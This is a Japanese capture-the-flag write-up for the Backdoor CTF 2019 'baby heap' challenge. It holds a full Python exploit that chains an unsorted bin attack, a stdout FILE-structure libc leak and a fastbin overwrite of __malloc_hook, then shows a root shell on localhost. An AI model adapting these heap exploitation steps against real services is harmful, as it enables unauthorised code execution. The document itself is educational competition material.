 # [pwn 286pts] baby heap - Backdoor CTF 2019
64ビットバイナリで、PIEとRELRO以外有効です。
```
$ checksec -f babyheap
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      Yes     0               2       babyheap
```
baby tcacheと似ていますが、showが無くなり、freeが8回までになり、addできる配列が12個に増えました。また、addできるサイズは0x400までです。そしてlibcのバージョンは2.23なのでfastbinが使われます。と思ったのですが、malloptでfastbinが使えないようになっていました。
`global_max_fast`を使う方針にしましょう。
```python
from ptrlib import *

def add(index, size, data):
    sock.sendlineafter(">> ", "1")
    sock.sendlineafter(":", str(index))
    sock.sendlineafter(":", str(size))
    sock.sendafter(":", data)
    return

def edit(index, data):
    sock.sendlineafter(">> ", "2")
    sock.sendlineafter(":", str(index))
    sock.sendafter(":", data)
    return

def delete(index):
    sock.sendlineafter(">> ", "3")
    sock.sendlineafter(":", str(index))
    return

libc = ELF("./libc.so.6")
sock = Socket("localhost", 9999)
libc_one_gadget = 0xf1147

# prepare
add(0, 0x18, "ponta")
add(1, 0x68, "A")
add(2, 0x68, "B")

# unsorted bin attack
delete(0)
edit(0, p64(0) + b'\xe8\x37')
add(11, 0x18, p64(0x71) + b'\xdd\x25')

# libc leak
delete(2)
delete(1)
edit(1, b'\x08')
add(10, 0x68, "dummy")
add(9, 0x68, "dummy")
payload = b'A' * 0x33
payload += p64(0xfbad1800)
payload += p64(0) * 3
payload += b'\x00'
add(8, 0x68, payload)
sock.recvline()
libc_base = u64(sock.recv(0x48)[0x40:0x48]) - libc.symbol("_IO_2_1_stderr_") - 192
logger.info("libc = " + hex(libc_base))

# fastbin attack
delete(2)
delete(1)
edit(1, p64(libc_base + libc.symbol("__malloc_hook") - 0x23))
add(7, 0x68, "dummy")
payload = b'A' * 3
payload += p64(0) * 2
payload += p64(libc_base + libc_one_gadget)
add(6, 0x68, payload)

# get the shell!
sock.sendlineafter(">> ", "1")
sock.sendlineafter(":", "5")
sock.sendlineafter(":", "123")

sock.interactive()
```

ぽん。
```
$ python solve.py 
[+] __init__: Successfully connected to localhost:9999
[+] <module>: libc = 0x7ffff7a0d000
[ptrlib]$ id
uid=0(root) gid=0(root) groups=0(root)
[ptrlib]$
```

# 感想
PIEとRELROが無効だったのはfsbでもできるのかな？慣れてる方で解いてしまった。
というか初期に比べてだいぶヒープ慣れしてきた感がある。
